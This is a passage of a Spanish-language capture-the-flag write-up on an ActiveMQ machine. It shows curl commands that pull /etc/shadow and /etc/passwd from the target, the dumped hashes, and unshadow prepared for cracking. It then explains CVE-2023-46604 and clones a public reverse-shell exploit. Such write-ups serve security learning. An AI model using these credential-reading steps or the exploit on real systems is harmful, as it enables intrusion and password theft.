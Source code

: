 - Aparte hay un montón de puertos en los que se comparte el sistema de archivos entero  
- Intento descargar algunos archivos de linux (`/etc/shadow`, `/etc/passwd`), correr el comando `unshadow` y crackear el hash, pero fracasamos.  

```bash
$: curl -s http://10.10.11.243:81/etc/shadow | grep -E "activemq|root" > shadow
root:$y$j9T$iDBjbum43YnvVKbOLNqgQ0$S0vmvHYH4M69yMjRUw2ioBEN6ElqehZQud6Lr/IQnJC:19720:0:99999:7:::
activemq:$y$j9T$5eMce1NhiF0t9/ZVwn39P1$pCfvgXtARGXPYDdn2AVdkCnXDf7YO7He/x666g6qLM5:19666:0:99999:7:::
$: curl -s http://10.10.11.243:81/etc/passwd | grep -E "activemq|root" > passwd
root:x:0:0:root:/root:/bin/bash
activemq:x:1000:1000:,,,:/home/activemq:/bin/bash
$: unshadow passwd shadow > shadowed
```

-------------------------------------

### ¿Que es active MQ?

Es internet nos lo definen como un broker de mensajes (al principio creia que se trataba de un chat, pero leyendo más me di cuenta que no)  

Con mensajes nos referimos a la trasnferencia de datos estrcuturados (XML, JSON u objetos serializados) para que aplicaciones se comuniquen entre si. 
El broker de mensajes, (`ActiveMQ`), actúa como un intermediario que facilita y gestiona dicha comunicación (enruta mensajes de una aplicación a 
otra y adapta el formato del mensaje para que le sea legible)

Si una aplicación Cliente utiliza Java como lenguaje, se comunica con el broker ActiveMQ por el protocolo `OpenWire`, mediante datos en binario

- Información extraida de [attackerkb](https://attackerkb.com/topics/IHsgZDE3tS/cve-2023-46604/rapid7-analysis)

### CVE-2023-46604

Este protocolo `OpenWire` escucha por defecto en el puerto `61616` para pasarle los datos recibidos a `ActiveMQ`. Este componente, es el vulnerable
a un RCE (ejecución arbitraria de comandos) mediante un archivo XML especialmente diseñado para ello.

-------------------------------------

# Explotando Active MQ

Buscamos la vulnerabilidad respecto a esta versión de ActiveMQ, encontramos el CVE-2023-46604, que es un RCE.  

> Q. ¿Cual es el codigo CVE de la vulnerabilidad de "Ejecucion Remota de Comandos" del ActiveMQ?  
> A. CVE-2023-46604  

Encontramos un exploit en [github](https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ)  

```bash
$: git clone https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ
Cloning into 'CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ'...
remote: Enumerating objects: 20, done.
remote: Counting objects: 100% (20/20), done.
...
$: cd CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ
```
